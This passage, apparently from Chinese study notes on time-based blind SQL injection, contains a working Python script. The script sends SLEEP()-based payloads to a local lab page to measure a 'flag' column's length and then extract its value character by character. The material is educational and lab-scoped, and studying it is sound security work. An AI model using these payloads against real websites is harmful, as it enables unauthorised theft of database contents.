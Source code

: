 这样就可以判断字段值的长度，从而进一步猜测字段值

**脚本注入**

在泄露字段值时，需要额外注意大小写，因为`SUBSTR()`对大小写不敏感，因此必须使用`ASCII()`，同时，为了保证爆破的准确性，尽量选择比较大的延迟，降低因网络波动导致的误报概率

```py
import requests
import string

url = 'http://localhost/sql-injection/blind-time.php'
charset = string.ascii_letters + string.digits + string.punctuation

table = 'flag'
database = 'test'
column = 'flag'

# 确定长度
MAX = 50
valueLen = 0
for i in range(1, MAX):
    print(f'尝试长度为{i}')
    payload = f"0' OR (SELECT 1 FROM (SELECT IF(LENGTH((SELECT {column} FROM {database}.{table}))={i},SLEEP(1),1)) AS a)#"
    response = requests.post(url, data={'username': payload})
    if response.elapsed.total_seconds() > 1.0:
        valueLen = i
        break
print(f'>>> 字段值长度为{valueLen}')

# 获取字段值
# 使用ASCII()函数保证大小写敏感
value = ''
for i in range(1, valueLen+1):
    print(f'尝试第{i}个字符')
    for c in charset:
        payload = f"0' OR (SELECT 1 FROM (SELECT IF(ASCII(SUBSTRING((SELECT {column} FROM {database}.{table}),{i},1))={ord(c)},SLEEP(2),1)) AS a)#"
        response = requests.post(url, data={'username': payload})
        if response.elapsed.total_seconds() > 2.0:
            value += c
            break
print(f'>>> 字段值为{value}')
```

结果如下

> <img src="./IMG3/{E4E3BE49-0C9C-4B1D-9315-E5C53F9F685D}.png">
